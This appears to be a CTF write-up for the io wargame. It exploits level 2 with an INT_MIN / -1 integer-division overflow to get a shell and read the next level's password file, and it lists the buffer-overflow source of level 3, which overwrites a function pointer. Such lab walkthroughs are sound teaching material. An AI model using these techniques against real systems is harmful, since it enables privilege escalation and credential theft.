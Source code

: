 Let's have a look at the situations where the SIGFPE signal is triggered. </br>
Courtesy of [SAS](http://support.sas.com/documentation/onlinedoc/sasc/doc700/html/lr1/zid-3511.htm) :

```
The SIGFPE signal is raised when a computational error occurs. These errors include floating-point overflow, floating-point underflow, and either integer- or floating-point division by 0.
```

Is there a way to cause a integer overflow just with integer division?
Division by 0 is not allowed.</br>
The range of signed 32bits integers is [-2147483648, 2147483647].

```
level2@io:/levels$ ./level02 2147483648 1
source code is available in level02.c

level2@io:/levels$ 
```

atoi seem to prevent the overflow, what if we generate INT_MAX+1 within the signed division? It cannot be represented using two's complement in a 32 bit register.

```
level2@io:/levels$ ./level02 -2147483648 -1
source code is available in level02.c
WIN!
sh-4.2$ cat /home/level3/.pass
```


##Level 3
-------------

```
#include <stdio.h>
#include <string.h>

void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
void bad()
{
        printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
        void (*functionpointer)(void) = bad;
        char buffer[50];

        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);

        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();

        return 0;
}
```
